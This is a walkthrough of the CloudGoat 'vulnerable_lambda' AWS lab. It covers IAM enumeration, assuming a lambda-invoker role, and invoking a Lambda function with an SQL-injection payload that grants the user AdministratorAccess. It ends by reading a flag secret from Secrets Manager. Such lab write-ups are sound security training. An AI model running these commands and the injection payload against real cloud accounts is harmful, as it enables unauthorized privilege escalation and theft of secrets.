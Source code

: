 # Vulnerable Lambda 
In this scenario, a lambda function will be exploited to escalate privileges and search for secrets.

## Installation
```
./cloudgoat.py create vulnerable_lambda
```
## Enumerate Biblo
1. Assume the biblo user's role
```aws configure --profile biblo
<Add access key, secret access key into the fields>
aws --profile biblo sts get-caller-identity -> Get user name
```
2. Get all the permissions associated with biblo
```
aws iam list-user-policies --user-name <user name> --profile biblo -> get policy name
aws iam get-user-policy --user-name <user name> --policy-name <policy name> --profile biblo

POLICYDOCUMENT  2012-10-17
STATEMENT       sts:AssumeRole  Allow   arn:aws:iam::<account id>:role/cg-lambda-invoker*          
STATEMENT       ['iam:Get*', 'iam:List*', 'iam:SimulateCustomPolicy', 'iam:SimulatePrincipalPolicy']       Allow   *  
```
We can see that the the policy allows us to list roles and assume the lambda role

3. To list roles
```
aws iam list-roles --profile biblo >> roles.txt
```
In roles.txt, we search for the role name that begins with cg-lambda-invoker
4. Identify the associated permissions with the role
```
aws iam list-role-policies --role-name <role name> --profile biblo
aws iam get-role-policy --role-name <role name> --policy-name <policy name> --profile biblo
POLICYDOCUMENT  2012-10-17
STATEMENT       Allow   ['<lambda function arn>', '<2 lambda function arn>']
ACTION  lambda:ListFunctionEventInvokeConfigs
ACTION  lambda:InvokeFunction
ACTION  lambda:ListTags
ACTION  lambda:GetFunction
ACTION  lambda:GetPolicy
STATEMENT       Allow   *
ACTION  lambda:ListFunctions
ACTION  iam:Get*
ACTION  iam:List*
ACTION  iam:SimulateCustomPolicy
ACTION  iam:SimulatePrincipalPolicy
```
We can see that we can get the source function and list functions.

4. Assume the lambda role
```
aws sts assume-role --role-arn <lambda role> --role-session-name biblo --profile biblo --output json
```
5. Add the profile
```
nano ~/.aws/credentials
```
Add the following lines
```
[lambda-biblo]
aws_access_key_id = <access key>
aws_secret_access_key = <secret access key>
aws_session_token = <session token>
```
## Lambda Source Code
1. List lambdas and identify target lambda 
```
aws lambda list-functions --profile lambda-biblo
...
<target lambda function>
"Description": "This function will apply a managed policy to the user of your choice, so long as the database says that it's okay..."
...
```
We then see that the exploit could be database
2. Examine the source code
```
aws lambda get-function --function-name <function name> --profile lambda-biblo
...
CODE    https://prod-04-20xxxx...
...
```
Paste the url into the browser to download the code. We can then see that the code validates our hypothesis above. We can add the policy administrator access to our user as it is in the approved list of policies.
3. Invoke the function with attaching the policies
```
aws --profile lambda-biblo lambda invoke --function-name <function name> --cli-binary-format raw-in-base64-out --payload '{"policy_names":["AdministratorAccess'"'"' --"], "user_name":"<biblo user name>"}' out.txt
cat out.txt -> Check for no errors
```
## Secrets Manager
1. List Secrets
```
aws secretsmanager list-secrets --region us-east-1 --profile biblo --output json
... 
"Name": "vulnerable_lambda_xx... -> id of secret we want
...
```
2. Get the secret 
```
aws secretsmanager get-secret-value --region us-east-1 --secret-id <secret id> --profile biblo --output json
...
"SecretString": "cg-secret-846237-284529" -> Flag!
...
```

# References 
* Challenge: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/vulnerable_lambda/README.md
